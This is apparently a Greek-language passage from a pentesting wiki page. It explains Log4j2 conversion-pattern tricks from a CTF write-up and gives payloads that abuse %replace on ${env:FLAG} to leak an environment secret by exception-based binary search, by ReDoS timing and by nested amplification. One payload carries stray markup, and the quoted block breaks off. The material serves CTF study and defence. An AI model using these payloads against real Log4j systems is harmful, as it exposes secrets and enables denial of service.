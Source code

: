 ### Conversion Patterns Exceptions

Απλώς για να το αναφέρω, θα μπορούσες επίσης να εισάγεις νέα [**conversion patterns**](https://logging.apache.org/log4j/2.x/manual/layouts.html#PatternLayout) και να προκαλέσεις εξαιρέσεις που θα καταγραφούν στο `stdout`. Για παράδειγμα:

![](<../../.gitbook/assets/image (683).png>)

Αυτό δεν βρέθηκε χρήσιμο για να εξάγουμε δεδομένα μέσα στο μήνυμα σφάλματος, επειδή η αναζήτηση δεν επιλύθηκε πριν από το conversion pattern, αλλά θα μπορούσε να είναι χρήσιμο για άλλα πράγματα όπως η ανίχνευση.

### Conversion Patterns Regexes

Ωστόσο, είναι δυνατόν να χρησιμοποιήσεις κάποια **conversion patterns που υποστηρίζουν regexes** για να εξάγεις πληροφορίες από μια αναζήτηση χρησιμοποιώντας regexes και κακοποιώντας **δυαδική αναζήτηση** ή **χρονικά βασισμένες** συμπεριφορές.

* **Δυαδική αναζήτηση μέσω μηνυμάτων εξαίρεσης**

Το conversion pattern **`%replace`** μπορεί να χρησιμοποιηθεί για να **αντικαταστήσει** **περιεχόμενο** από μια **αλφαριθμητική συμβολοσειρά** ακόμη και χρησιμοποιώντας **regexes**. Λειτουργεί ως εξής: `replace{pattern}{regex}{substitution}`\
Κακοποιώντας αυτή τη συμπεριφορά, θα μπορούσες να κάνεις την αντικατάσταση **να προκαλέσει μια εξαίρεση αν το regex ταίριαζε** με οτιδήποτε μέσα στη συμβολοσειρά (και καμία εξαίρεση αν δεν βρεθεί) όπως αυτό:
```bash
%replace{${env:FLAG}}{^CTF.*}{${error}}
# The string searched is the env FLAG, the regex searched is ^CTF.*
## and ONLY if it's found ${error} will be resolved with will trigger an exception
```
* **Βασισμένο στον χρόνο**

Όπως αναφέρθηκε στην προηγούμενη ενότητα, **`%replace`** υποστηρίζει **regexes**. Έτσι, είναι δυνατόν να χρησιμοποιηθεί payload από τη [**σελίδα ReDoS**](../regular-expression-denial-of-service-redos.md) για να προκαλέσει ένα **timeout** σε περίπτωση που βρεθεί η σημαία.\
Για παράδειγμα, ένα payload όπως το `%replace{${env:FLAG}}{^(?=CTF)((.`_`)`_`)*salt$}{asd}` θα ενεργοποιούσε ένα **timeout** σε εκείνο το CTF.

Σε αυτή την [**αναφορά**](https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/), αντί να χρησιμοποιηθεί μια επίθεση ReDoS, χρησιμοποιήθηκε μια **επίθεση ενίσχυσης** για να προκαλέσει μια διαφορά χρόνου στην απάντηση:

> ```
> /%replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{${ENV:FLAG}}{CTF\{" + flagGuess + ".*\}}{#############################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}